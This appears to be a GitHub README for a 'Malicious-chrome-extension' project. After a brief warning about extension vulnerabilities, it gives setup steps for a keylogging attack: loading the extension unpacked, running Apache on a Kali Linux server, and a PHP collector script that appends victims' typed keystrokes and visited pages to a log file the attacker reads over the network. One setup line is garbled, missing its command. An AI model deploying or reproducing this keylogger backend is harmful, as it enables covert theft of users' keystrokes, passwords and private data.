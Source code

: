 # Malicious-chrome-extension
<!-- ABOUT THE PROJECT -->
<div id="top"></div>
### About The Project

Vulnerabilities in browser extensions put users at risk by providing a way for website and network attakcers to gain access to user's private data and credentials. Browser extensions can introduce serious security vulnerabilities into users browsers.

<p align="right">(<a href="#top">back to top</a>)</p>

## Getting started
1. Clone this git repository
2. Settings > Extensions > enable developer mode > Load unpacked > upload the folder  
3. In server(kali linux),
           - sudo systemctl enable apache2  
           - sudo service apache2 start      
           - cd /var/www/html    
           - sudo mkdir keylogger    
           - cd keylogger
           - nano index.php
             <?php    
              if(!isset($_POST['key'])){ ### Authenticate input      
                      echo("Access Denied!");    
                      exit(0);    
              }     
              $file = fopen("key.log","a+");    
              if(!isset($_SESSION['page']) || $_SESSION['page'] != $_POST['page']){     
                      $_SESSION['page'] = $_POST['page'];     
                      fwrite($file,"[[[ PAGE : ".$_POST['page']."]]]");     
              }    
              fwrite($file,$_POST['key']);     
              fclose($file);     
              echo('char saved!');     
            - cd ..     
            - cd ..      
            - -hR www-data:www-data html     
            - Open a browser > 192.168.xx.xx/keylogger/key.log     
            




